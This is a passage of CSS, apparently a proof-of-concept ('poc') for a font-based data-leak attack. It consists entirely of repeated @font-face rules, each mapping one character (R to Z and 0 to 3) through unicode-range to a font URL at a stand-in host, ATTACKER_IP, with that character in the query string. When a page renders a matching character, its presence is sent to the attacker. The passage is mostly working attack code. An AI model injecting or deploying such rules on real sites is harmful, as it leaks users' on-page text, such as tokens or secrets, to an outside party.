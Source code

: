     src: url(http://ATTACKER_IP/?q=R);
    unicode-range: U+0052;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=S);
    unicode-range: U+0053;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=T);
    unicode-range: U+0054;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=U);
    unicode-range: U+0055;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=V);
    unicode-range: U+0056;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=W);
    unicode-range: U+0057;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=X);
    unicode-range: U+0058;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=Y);
    unicode-range: U+0059;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=Z);
    unicode-range: U+005A;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=0);
    unicode-range: U+0030;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=1);
    unicode-range: U+0031;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=2);
    unicode-range: U+0032;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=3);
    unicode-range: U+0033;
}
@font-face {